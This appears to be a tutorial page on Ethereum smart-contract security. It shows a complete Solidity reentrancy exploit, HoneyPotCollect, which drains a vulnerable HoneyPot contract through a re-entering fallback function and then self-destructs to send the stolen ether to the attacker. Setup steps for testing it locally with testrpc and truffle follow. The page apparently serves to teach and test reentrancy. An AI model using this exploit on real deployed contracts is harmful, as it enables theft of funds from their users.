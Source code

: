 HoneyPotCollect.sol

```bash
pragma solidity ^0.4.4;

import "./HoneyPot.sol";

contract HoneyPotCollect {
  HoneyPot public honeypot;
  function HoneyPotCollect (address _honeypot) public {
    // pass an address will be the HoneyPot
    honeypot = HoneyPot(_honeypot);
  }

  // to get the collected ether to an address of hacker
  // mechanism to destroy the HoneyPotCollect and send all ether containing in it to the address
  function kill () public {
    selfdestruct(msg.sender);
  }


  // set the reentrancy attack in motion. It puts some ether in HoneyPot
  function collect() payable public {
    honeypot.put.value(msg.value)();
    honeypot.get();
  }


  // the fallback function is called whenever the HoneyPotCollect contract receives ether
  function () payable public {
    if (honeypot.balance >= msg.value) {
      honeypot.get();
    }
  }
}
```

## Testing HoneyPot with testrpc

ethereumjs-testrpc is fast Ethereum RPC client for testing and development

Install

`$ npm install -g ethereumjs-testrpc`

yarn

`$ yarn global add ethereumjs-testrpc`

Create test file

`$ truffle create test HoneyPot`

Write the test for HoneyPot in test/honey_pot.js
